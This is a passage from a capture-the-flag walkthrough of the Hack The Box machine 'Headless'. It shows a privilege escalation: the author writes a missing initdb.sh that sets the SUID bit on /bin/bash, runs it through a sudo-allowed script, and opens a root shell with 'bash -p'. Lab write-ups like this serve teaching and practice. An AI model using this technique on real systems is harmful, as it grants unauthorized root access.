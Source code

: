```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

I tried searching for that initdb.sh but could not find. Even i used find command to search in root directory (/) but the result was disappointing 😮‍💨.
So, I thought, if there isn't such file, why don't I create it myself and let the system run it with sudo previlege?

```bash
echo "chmod u+s /bin/bash" > initdb.sh"
chmod +x initdb.sh
```

Here the idea is to create a file which when executed will set SUID bit to /bin/bash. Now lets execute the /usr/bin/syscheck with sudo command.

```bash
dvir@headless:~$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.03, 0.03
Database service is not running. Starting it...

# checking the permission of /bin/bash
dvir@headless:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```
SUID bit is set to user now by running `/bin/bash -p` when the binary has the SUID bit set, the -p option allows the default bash shell to run with SUID privileges.

From here we can escalate out previlege to root and tehn grab the root flag.

![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/root_flag.jpg)

Hurray! we successfully acquired the root flag 🤩.

Thankyou for reading my writeup cum walkthrough. Hope this was really informative and interesting for you.
 ![headless pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/headless_pwned.jpg)

